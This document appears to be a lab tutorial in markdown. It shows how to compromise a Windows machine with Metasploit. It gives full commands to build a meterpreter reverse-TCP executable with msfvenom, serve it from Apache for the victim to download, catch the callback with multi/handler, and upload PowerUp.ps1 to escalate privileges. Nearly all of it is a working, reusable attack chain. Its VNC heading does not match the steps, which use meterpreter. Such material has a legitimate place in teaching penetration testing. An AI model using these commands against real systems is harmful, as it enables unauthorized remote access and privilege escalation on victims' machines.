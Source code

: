 
#### Exploit Client-Side Vulnerabilities and Establish a VNC Session

Attackers leverage client-side vulnerabilities to gain access to target machines. VNC (Virtual Network Computing) enables remote access and control of computers. Here, we demonstrates exploiting a weakly patched Windows machine to gain unauthorized access through a remote desktop connection using Metasploit.

##### Steps

- Generate Malicious File:
   ```bash
   msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -f exe LHOST=10.10.1.13 LPORT=444 -o /home/attacker/Desktop/Test.exe
   ```

- Share Malicious File:
   ```bash
   mkdir /var/www/html/share
   chmod -R 755 /var/www/html/share
   chown -R www-data:www-data /var/www/html/share
   cp /home/attacker/Desktop/Test.exe /var/www/html/share
   ```

- Start Apache Service:
   ```bash
   service apache2 start
   ```

- Launch Metasploit:
   ```bash
   msfconsole
   ```

- Set Up Metasploit:
   ```bash
   use exploit/multi/handler
   set payload windows/meterpreter/reverse_tcp
   set LHOST 10.10.1.13
   set LPORT 444
   exploit
   ```

- Access Malicious File on victim windows machine:
   - Open the web browser and navigate to http://10.10.1.13/share.
   - Download the Test.exe file.

- Run Exploit:
   - Double-click Test.exe on victim machine.

- Verify Access:
   - Observe Meterpreter session.
   ```bash
   sysinfo
   ```

- Upload PowerUp.ps1:
   ```bash
   upload /root/PowerSploit/Privesc/PowerUp.ps1 PowerUp.ps1
   ```
